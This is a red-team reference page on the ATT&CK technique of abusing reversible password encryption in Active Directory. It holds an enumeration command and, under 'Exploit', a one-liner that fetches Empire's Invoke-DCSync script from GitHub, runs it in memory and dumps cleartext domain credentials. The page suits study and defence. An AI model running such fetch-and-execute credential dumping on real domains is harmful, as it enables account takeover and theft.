


# Reversible Encryption

**ATT\&CK ID:** [**T1556.005**](reversible-encryption.md#undefined)****

#### Permissions Required: <mark style="color:red;">Administrator</mark> | <mark style="color:green;">User</mark>

**Description**

An adversary may abuse Active Directory authentication encryption properties to gain access to credentials on Windows systems. The `AllowReversiblePasswordEncryption` property specifies whether reversible password encryption for an account is enabled or disabled. By default this property is disabled (instead storing user credentials as the output of one-way hashing functions) and should not be enabled unless legacy or other software require it.

If the property is enabled and/or a user changes their password after it is enabled, an adversary may be able to obtain the plaintext of passwords created/changed after the property was enabled. To decrypt the passwords, an adversary needs four components:

1. Encrypted password (`G$RADIUSCHAP`) from the Active Directory user-structure `userParameters`
2. 16 byte randomly-generated value (`G$RADIUSCHAPKEY`) also from `userParameters`
3. Global LSA secret (`G$MSRADIUSCHAPKEY`)
4. Static key hardcoded in the Remote Access Subauthentication DLL (`RASSFM.DLL`)

With this information, an adversary may be able to reproduce the encryption key and subsequently decrypt the encrypted password value.

An adversary may set this property at various scopes through Local Group Policy Editor, user properties, Fine-Grained Password Policy (FGPP), or via the ActiveDirectory PowerShell module. For example, an adversary may implement and apply a FGPP to users or groups if the Domain Functional Level is set to "Windows Server 2008" or higher. In PowerShell, an adversary may make associated changes to user settings using commands similar to `Set-ADUser -AllowReversiblePasswordEncryption $true`.

\[[Source](https://attack.mitre.org/techniques/T1556/005/)]

## Techniques - Enumeration

The following technique(s) describe method's of which to identify accounts which have `AllowReversiblePasswordEncryption` enabled.

### Active Directory

Active Directory Users and Computers can be utilized to manually identify accounts with `AllowReversiblePasswordEncryption` enabled.



### PowerShell

```powershell
Get-ADUser -filter {AllowReversiblePasswordEncryption -eq $True} -Properties "AllowReversiblePasswordEncryption"
```


## Techniques - Exploit

### Invoke-DCSync

Performing a DCSync attack against the primary domain controller will reveal clear text credentials for accounts that have the flag `ENCRYPTEDTEXT_PASSWORD_ALLOWED` _enabled._

```
iex (iwr -usebasicparsing  https://raw.githubusercontent.com/BC-SECURITY/Empire/master/empire/server/data/module_source/credentials/Invoke-DCSync.ps1);Invoke-DCSync -AllData
```



.png>)

## Mitigation

* Ensure that `AllowReversiblePasswordEncryption` property is set to disabled unless there are application requirements.

## Further Reading

**Dump Clear-Text Passwords:** [https://adsecurity.org/?p=2053](https://adsecurity.org/?p=2053)
